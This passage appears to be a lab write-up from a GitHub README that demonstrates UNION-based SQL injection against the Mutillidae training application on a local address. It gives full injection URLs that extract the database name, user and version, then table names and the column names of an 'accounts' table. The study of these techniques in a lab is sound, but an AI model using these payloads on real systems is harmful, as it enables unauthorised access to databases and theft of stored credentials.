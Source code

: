  ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/42e6a910-9904-4297-a64d-5ceca4321ff2)

 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

 ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/c335915c-3766-4431-ad43-b7e975cd5059)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0eb145ed-0a75-4d46-8c51-48d5708191e1)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.

In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:

union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/3a57e755-40da-4d54-9dba-b7c6cd1ace7f)

The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/5c9a4fa2-a135-4474-8af4-0eeb30daa628)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/fd338e2d-8b91-4f30-b377-3e0808857ca1)
